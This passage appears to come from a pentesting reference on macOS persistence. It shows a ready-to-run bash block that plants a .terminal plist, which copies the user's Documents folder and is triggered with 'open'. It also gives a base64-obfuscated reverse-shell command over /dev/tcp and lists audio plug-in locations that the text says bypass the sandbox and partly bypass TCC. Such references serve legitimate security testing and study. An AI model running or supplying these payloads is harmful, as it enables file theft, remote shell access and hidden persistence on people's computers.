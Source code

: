 Try it with:

```bash
# Prepare the payload
cat > /tmp/test.terminal << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>CommandString</key>
	<string>mkdir /tmp/Documents; cp -r ~/Documents /tmp/Documents;</string>
	<key>ProfileCurrentVersion</key>
	<real>2.0600000000000001</real>
	<key>RunCommandAsShell</key>
	<false/>
	<key>name</key>
	<string>exploit</string>
	<key>type</key>
	<string>Window Settings</string>
</dict>
</plist>
EOF

# Trigger it
open /tmp/test.terminal

# Use something like the following for a reverse shell:
<string>echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxOw==" | base64 -d | bash;</string>
```

You could also use the extensions **`.command`**, **`.tool`**, with regular shell scripts content and they will be also opened by Terminal.

{% hint style="danger" %}
If terminal has **Full Disk Access** it will be able to complete that action (note that the command executed will be visible in a terminal window).
{% endhint %}

### Audio Plugins

Writeup: [https://theevilbit.github.io/beyond/beyond\_0013/](https://theevilbit.github.io/beyond/beyond\_0013/)\
Writeup: [https://posts.specterops.io/audio-unit-plug-ins-896d3434a882](https://posts.specterops.io/audio-unit-plug-ins-896d3434a882)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
* TCC bypass: [🟠](https://emojipedia.org/large-orange-circle)
  * You might get some extra TCC access

#### Location

* **`/Library/Audio/Plug-Ins/HAL`**
  * Root required
  * **Trigger**: Restart coreaudiod or the computer
* **`/Library/Audio/Plug-ins/Components`**
  * Root required
  * **Trigger**: Restart coreaudiod or the computer
* **`~/Library/Audio/Plug-ins/Components`**
  * **Trigger**: Restart coreaudiod or the computer
* **`/System/Library/Components`**
  * Root required
  * **Trigger**: Restart coreaudiod or the computer
